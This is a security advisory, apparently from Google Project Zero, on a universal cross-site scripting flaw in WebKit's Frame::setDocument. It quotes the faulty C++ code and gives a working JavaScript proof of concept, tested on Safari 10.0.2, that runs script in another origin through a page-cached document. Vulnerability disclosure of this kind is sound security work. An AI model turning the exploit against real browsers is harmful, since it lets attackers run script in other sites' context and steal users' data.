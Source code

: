 # UXSS via Frame::setDocument (1).

### Reported by <mailto:lokihardt@google.com>, Dec 20 2016

```cpp
void Frame::setDocument(RefPtr<Document>&& newDocument)
{
    ASSERT(!newDocument || newDocument->frame() == this);

    if (m_doc && m_doc->pageCacheState() != Document::InPageCache)
        m_doc->prepareForDestruction();

    m_doc = newDocument.copyRef();
    ...
}
```

The function `prepareForDestruction` only called when the cache state is not `Document::InPageCache`. So the frame will be never detached from the cached document.

PoC:

```js
"use strict"

document.write("click anywhere to start")

window.onclick = () => {
	let w = open("about:blank", "one")
	let d = w.document

	let a = d.createElement("a")
	a.href = "https://abc.xyz/"
	a.click() // <<------- about:blank -> Document::InPageCache

	let it = setInterval(() => {
		try {
			w.location.href.toString
		} catch (e) {
			clearInterval(it)

			let s = d.createElement("a") // <<------ about:blank's document
			s.href = "javascript:alert(location)"
			s.click()
		}
	}, 0)
}
```

Tested on Safari 10.0.2(12602.3.12.0.1).

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1056
